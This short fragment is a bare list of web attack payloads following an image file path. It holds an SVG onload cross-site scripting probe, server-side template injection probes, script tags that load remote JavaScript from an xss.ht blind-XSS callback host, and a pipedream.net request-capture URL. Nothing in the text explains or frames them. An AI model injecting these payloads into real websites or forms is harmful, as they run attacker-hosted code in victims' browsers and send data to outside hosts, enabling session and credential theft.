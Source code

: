 '"><svg/onload=prompt(5);>{{7*7}}


${{48*53}}`'";--><sCRIpt sRc=//s6.xss.ht></sCRIpt>

"><script/src=//s6.xss.ht></script>

http://fc52a7e8b87e98a922d32ddf391a9ca4.m.pipedream.net

